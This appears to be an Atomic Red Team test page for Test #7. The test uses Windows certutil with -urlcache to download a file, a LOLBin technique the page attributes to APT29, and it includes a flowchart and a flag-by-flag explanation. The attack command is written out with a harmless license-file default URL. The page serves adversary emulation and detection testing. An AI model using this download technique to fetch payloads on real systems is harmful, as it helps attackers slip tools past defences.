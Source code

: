 <br/>

## Atomic Test #7 - certutil download (urlcache)
Uses certutil with -urlcache to download files. APT29 has extensively used certutil for downloading additional tools and payloads during operations.

**Supported Platforms:** Windows

**auto_generated_guid:** 7a8b9c0d-1e2f-3a4b-5c6d-7e8f9a0b1c2d

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| output_file | Local output filename | string | Atomic-license.txt |

#### Attack Commands: Run with `command_prompt`! 
```cmd
certutil -urlcache -split -f #{url} #{output_file}
```

```mermaid
flowchart TD
    Start[Test #7: certutil download] --> CheckPrereq["Prerequisite Check:<br>Get-Command certutil"]
    CheckPrereq --> CertUtilFound{"certutil available?"}
    
    CertUtilFound -- Yes --> ExecuteAttack["Execute: certutil -urlcache -split -f<br>https://raw.githubusercontent.com/.../LICENSE.txt<br>Atomic-license.txt"]
    CertUtilFound -- No --> Abort[Test Aborted]
    
    ExecuteAttack --> Breakdown[Command Breakdown]
    
    subgraph Breakdown [certutil flags explanation]
        C1[certutil.exe] --> F1[-urlcache: Enable URL access]
        C1 --> F2[-split: Save to file not stdout]
        C1 --> F3[-f: Force overwrite silently]
    end
    
    Breakdown --> Network[Makes HTTP GET request]
    Network --> Download[Downloads file content]
    Download --> Save[Saves to Atomic-license.txt]
    Save --> Success[Transfer Complete]
```

**Command Explanation:**
```cmd
certutil -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt Atomic-license.txt
```
- **certutil.exe**: Legitimate Windows certificate utility abused as LOLBin
- **-urlcache**: Enables URL interaction functionality
- **-split**: Critical flag that saves content to file instead of displaying it
- **-f**: Forces overwrite without prompting user
- **URL**: Source location (benign in test, malicious in real attacks)
- **Output filename**: Local destination for downloaded content
